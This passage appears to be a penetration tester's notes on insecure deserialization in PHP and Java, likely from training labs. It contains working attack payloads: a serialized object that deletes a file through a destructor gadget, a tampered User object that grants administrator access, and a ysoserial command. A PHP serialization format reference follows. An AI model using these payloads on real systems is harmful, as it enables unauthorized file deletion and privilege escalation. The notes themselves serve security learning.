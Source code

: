 Consider that we were able to retrieve the source of a php file by appending `~` in our request and extracted the below:
```
    function __destruct() {
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
```
We could delete files by creating an object and sending in a valid parameter:
```
O:14:"Delete":1:{s:14:"lock_file_path";s:23:"/home/shrek/payslip.txt";}
```

A basic privilege escalation:
`O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"mo9iwmmkmyv7opm4fmdjy4e8brusnvey";}`
Change to:
`O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}`

With ysoserial remember to url encode your generated payload
`java -jar /Users/kymb0/toolz/ysoserial-master-d367e379d9-1.jar CommonsCollections4 '/home/shrek/payslip.txt' | base64`

Objects are serialized as:  
`O:<i>:"<s>":<i>:{<properties>}`  
where the first `<i>` is an integer representing the string length of `<s>`, and `<s>` is the fully qualified class name (class name prepended with full namespace). The second `<i>` is an integer representing the number of object properties. `<properties>` are zero or more serialized name value pairs:  

Booleans are serialized as:  
`b:<i>;`  
where `<i>` is an integer with a value of either 0 (false) or 1 (true).  

Integers are serialized as:  
`i:<i>;`  
where `<i>` is the integer value.  

Floats are serialized as (with d meaning double):  
`d:<f>;`  
where `<f>` is the float value.  

Strings are serialized as:  
`s:<i>:"<s>";`  
where `<i>` is an integer representing the string length of `<s>`, and `<s>` is the string value.  

Special types:  
null is simply serialized as:  
`N;`  

Arrays are serialized as:  
`a:<i>:{<elements>}`  
where `<i>` is an integer representing the number of elements in the array, and `<elements>` zero or more serialized key value pairs:  
`<key><value>`  
where `<key>` represents a serialized scalar type, and `<value>` any value that is serializable.  
  
`<name><value>`  
where `<name>` is a serialized string representing the property name, and `<value>` any value that is serializable.  
There's a catch with `<name>` though:  
`<name>` is represented as  
`s:<i>:"<s>";`  
where `<i>` is an integer representing the string length of `<s>`. But the values of `<s>` differs per visibility of properties:  

